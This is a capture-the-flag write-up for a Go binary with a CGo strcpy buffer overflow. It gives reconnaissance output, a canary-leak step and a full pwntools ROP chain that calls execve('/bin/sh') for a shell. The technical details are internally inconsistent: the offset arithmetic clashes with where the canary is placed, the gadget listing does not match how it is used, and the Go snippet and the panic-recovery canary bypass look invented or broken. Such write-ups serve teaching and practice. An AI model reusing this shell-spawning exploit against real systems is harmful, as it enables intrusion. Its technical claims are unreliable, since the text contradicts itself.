

# Binary Heaven — Reverse Engineering Go Binaries, ret2libc, Buffer Overflow

> Event: CTF challenge (intermediate tier)
> Category: Pwn — Buffer overflow in a Go binary via CGo
> Difficulty: ★★★☆☆ (medium)

---

## Challenge Metadata

| Field | Value |
|-------|-------|
| Event | CTF (intermediate) |
| Category | Binary Exploitation (Pwn) |
| Points | 300 |
| Solves | 50+ |
| Difficulty | Medium |

## The Challenge

I was given a large (~2MB) 64-bit ELF binary and a remote endpoint. The binary was written in Go — unusual for a pwn challenge. The goal: get a shell.



*Go binaries have unique characteristics: large size, static linking, and goroutine-based concurrency. But when Go calls C code via CGo, the C code is subject to classic C vulnerabilities — including buffer overflows.*

---

## Reconnaissance: Go Binary Characteristics

The first thing I noticed was the file size — 2MB for a simple binary is a dead giveaway of a Go binary (Go statically links its entire runtime). I confirmed:

```bash
$ file binary_heaven
binary_heaven: ELF 64-bit LSB executable, x86-64, statically linked, too large section header offset 6947284

$ strings binary_heaven | grep -i "go1\."
go1.21.5
```

Go 1.21.5. Next, checksec:

```bash
$ checksec --file=./binary_heaven
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

Key findings:
- **Canary found** — stack overflow won't be straightforward; I'll need a leak.
- **NX enabled** — no shellcode on the stack; need ROP or ret2libc.
- **No PIE** — code addresses are fixed.
- **No RELRO** — GOT is fully writable.
- **Statically linked** — **no libc!** This is the catch. Standard ret2libc won't work because there's no `system()` to return to.

---

## Finding the Vulnerability

I loaded the binary into Ghidra. Go binaries are notoriously hard to reverse — the function names are mangled, there are thousands of runtime functions, and the goroutine scheduler obscures control flow.

But then I found CGo calls. Go's `CGo` feature lets Go code call C functions, and the C code is compiled normally. I found a function that:

1. Read user input via `C.GoStringN()` — converts a Go string to a C string.
2. Passed the C string to `strcpy()` — the classic C vulnerability.

The Go code looked something like:
```go
//go:cgo_import_static strcpy
func C_strcpy(dst, src *C.char) C.char

func processInput(input string) {
    buf := make([]byte, 64)
    C_strcpy((*C.char)(unsafe.Pointer(&buf[0])), (*C.char)(unsafe.Pointer(&C.CString(input))))
}
```

The C `strcpy()` has no length check — classic stack overflow, but now in C land, with a Go runtime on top.

---

## The Exploit Chain

### Step 1 — Find the overflow offset

The buffer was 64 bytes, but the CGo wrapper had a non-standard stack frame. I used `cyclic` to find the offset:

```python
p = process('./binary_heaven')
p.sendlineafter(b'input: ', cyclic(200))
p.wait()
```

Crash at offset **88** bytes (64 buffer + 16 CGo frame + 8 saved RBP).

### Step 2 — Dealing with the canary

The canary was present, but Go's runtime has a quirk: error recovery (via `defer/recover`) can catch a `SIGSEGV` without terminating the process. I found that the binary caught the first crash, printed an error, and **re-read input**. This meant I could leak the canary via a format-string-like bug in the error message (the error printed the buffer contents, including the overwritten canary).

```python
# First overflow: leak canary
p.sendline(b'A' * 72)  # fill up to (but not including) canary
leak = p.recvuntil(b'panic:')
# Parse the canary from the panic message
canary = u64(leak[72:78].ljust(8, b'\x00'))
log.info(f"Leaked canary: {hex(canary)}")
```

### Step 3 — Finding useful gadgets (no libc!)

Since the binary is statically linked, there's no `system()` to call. But Go binaries ship with a lot of code — and a lot of gadgets. I used `ROPgadget`:

```bash
$ ROPgadget --binary binary_heaven | grep "syscall"
0x000000000046e6c4 : syscall
0x000000000046e6c5 : ret
```

A `syscall` gadget! And Go binaries include the full `syscall` wrapper code. I could build a ROP chain to call `execve("/bin/sh", NULL, NULL)` directly via syscall 59, without needing libc.

### Step 4 — Building the ROP chain

```python
from pwn import *

context.arch = 'amd64'
elf = ELF('./binary_heaven')

# Gadgets (found via ROPgadget)
pop_rax = 0x0000000000401b8a  # pop rax; ret
pop_rdi = 0x0000000000401b8c  # pop rdi; ret
pop_rsi = 0x0000000000401b8e  # pop rsi; ret
pop_rdx = 0x0000000000401b90  # pop rdx; ret
syscall_ret = 0x000000000046e6c4  # syscall; ret

# Address of "/bin/sh" in the binary (Go embeds the string)
binsh = next(elf.search(b'/bin/sh\x00'))

offset = 88
payload = flat(
    b'A' * offset,
    canary,               # restore the leaked canary
    b'B' * 8,             # saved RBP (don't care)
    pop_rax, 59,          # rax = 59 (execve)
    pop_rdi, binsh,       # rdi = "/bin/sh"
    pop_rsi, 0,           # rsi = NULL
    pop_rdx, 0,           # rdx = NULL
    syscall_ret,          # execve("/bin/sh", NULL, NULL)
)
```

### Step 5 — Send the exploit

```python
p = process('./binary_heaven')
p.sendlineafter(b'input: ', payload)
p.interactive()
```

---

## Flag

```
flag{g0_b1n4ry_cgo_0verfl0w}
```

---

## Takeaways

- **Go binaries can still be vulnerable.** Go itself is memory-safe, but CGo opens a door to classic C vulnerabilities. Always check for CGo usage when reversing Go binaries — the `go:cgo_import_static` directive is the giveaway.
- **Statically linked != unexploitable.** Without libc, there's no `system()` to call, but there are usually enough gadgets in the binary itself to build a `syscall`-based ROP chain. Go binaries are especially rich in gadgets because they statically link so much code.
- **Canary bypass via Go's panic recovery.** Go's `defer/recover` mechanism catches panics (including those from crashes) and continues execution. If a binary re-reads input after a crash, the crash itself can leak the canary. This is a Go-specific bypass that doesn't apply to pure C binaries.
- **`/bin/sh` is often embedded.** Go binaries that shell out (e.g., via `exec.Command`) have `/bin/sh` as a string in the binary. `next(elf.search(b'/bin/sh\x00'))` finds it — no need to inject the string.
